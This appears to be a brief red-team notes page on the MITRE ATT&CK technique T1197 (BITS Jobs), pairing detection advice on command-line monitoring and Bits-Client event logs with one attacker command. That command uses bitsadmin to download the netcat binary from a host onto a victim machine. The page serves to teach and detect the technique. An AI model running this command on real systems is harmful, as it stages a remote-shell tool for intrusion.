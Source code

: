 ```yaml
---
description: File upload to the compromised system.
---
```


# T1197: BITS Jobs

## Execution

{% code title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode %}

![](../../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring can help discover bitsadmin usage:

![](../../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:

![](../../.gitbook/assets/bits-operational-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" caption="" %}


